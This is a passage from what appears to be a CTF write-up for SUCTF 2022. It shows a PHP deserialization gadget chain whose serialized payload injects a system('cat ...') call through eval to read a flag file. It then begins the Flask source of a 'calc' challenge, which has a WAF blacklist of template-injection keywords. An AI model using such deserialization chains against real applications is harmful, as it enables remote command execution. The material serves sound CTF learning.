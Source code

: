 ```php
    public function __toString()
    {
        $this->a->run();
        return 'hello';
    }
}
class mix
{
    public $m1;
    public function __construct($a){
        $this->m1 = $a;
    }
    public function run()
    {
        ($this->m1)();
    }

    public function get_flag()
    {
        eval('#' .$this->m1);
    }

}

#$ser = new fin(new what(new fin([new crow(new what(1),new mix(new crow(new fin(new mix(1)),1))),"eval"])));
$ser = new fin(new what(new fin([new mix('?><?php system("cat H0mvz*");?>'),'get_flag'])));
echo urlencode(serialize($ser));
```
## calc
题目给了源码

```php
#coding=utf-8
from flask import Flask,render_template,url_for,render_template_string,redirect,request,current_app,session,abort,send_from_directory
import random
from urllib import parse
import os
from werkzeug.utils import secure_filename
import time


app=Flask(__name__)

def waf(s):
    blacklist = ['import','(',')',' ','_','|',';','"','{','}','&','getattr','os','system','class','subclasses','mro','request','args','eval','if','subprocess','file','open','popen','builtins','compile','execfile','from_pyfile','config','local','self','item','getitem','getattribute','func_globals','__init__','join','__dict__']
    flag = True
    for no in blacklist:
        if no.lower() in s.lower():
            flag= False
            print(no)
            break
    return flag
    

@app.route("/")
def index():
    "欢迎来到SUctf2022"
```